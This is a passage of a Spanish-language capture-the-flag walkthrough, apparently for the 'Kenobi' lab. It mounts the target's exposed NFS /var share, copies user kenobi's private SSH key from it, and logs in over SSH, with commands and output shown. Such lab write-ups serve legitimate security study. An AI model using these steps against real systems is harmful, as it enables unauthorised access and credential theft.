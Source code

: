 Montemos la ruta en nuestro equipo

```
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.103.161:/var /mnt/kenobiNFS
```

```
ls -la /mnt/kenobiNFS
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Aug 30 09:53 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root _ssh  4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Aug 30 09:51 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www
```
Obtengamos la llave del usuario kenobi
```
sudo cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
sudo chown kali:kali id_rsa
```

Accedamos con nuestro nuevo usuario
```
ssh -i id_rsa -l kenobi 10.10.103.161
```

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 
```
